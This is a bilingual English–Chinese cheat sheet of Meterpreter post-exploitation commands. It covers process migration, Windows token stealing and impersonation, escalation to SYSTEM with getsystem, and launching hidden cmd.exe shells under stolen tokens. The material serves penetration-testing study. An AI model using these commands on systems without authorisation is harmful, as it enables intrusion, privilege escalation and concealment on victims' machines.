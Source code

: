 `use priv`
Load the privilege extension for extended Meterpreter libraries.
加载特权提升扩展模块，来扩展Meterpreter库。

`ps`
Show all running processes and which accounts are associated with each process.
显示所有运行进程以及关联的用户账户。

`migrate PID`
Migrate to the specific process ID (PID is the target process ID gained from the  ps command).
迁移到一个指定的进程ID（PID号可通过ps命令从目标主机上获得）。

`use incognito`
Load incognito functions. (Used for token stealing and impersonation on a target machine.)
加载incoginto功能（用来盗窃目标主机的令牌或是假冒用户）。

`list_tokens -u`
List available tokens on the target by user.
列出目标主机用户的可用令牌。

`list_tokens -g`
List available tokens on the target by group.
列出目标主机用户组的可用令牌。

`impersonate_token DOMAIN_NAME\\USERNAME`
Impersonate a token available on the target.
假冒目标主机上的可用令牌。

`steal_token PID`
Steal the tokens available for a given process and impersonate that token.
盗窃给定进行的可用令牌并进行令牌假冒。

`drop_token`
Stop impersonating the current token.
停止假冒当前令牌。

`getsystem`
Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors.
通过各种攻击向量来提升到系统用户权限。

`shell`
Drop into an interactive shell with all available tokens.
以所有可用令牌来运行一个交互的Shell。

`execute -f cmd.exe -i`
Execute cmd.exe and interact with it.
执行cmd.exe命令并进行交互。

`execute -f cmd.exe -i -t`
Execute cmd.exe with all available tokens.
以所有可用令牌来执行cmd命令。

`execute -f cmd.exe -i -H -t`
Execute cmd.exe with all available tokens and make it a hidden process.
以所有可用令牌来执行cmd命令并隐藏该进程。

`rev2self`
Revert back to the original user you used to compromise the target.
回到控制目标主机的初始用户账户下。
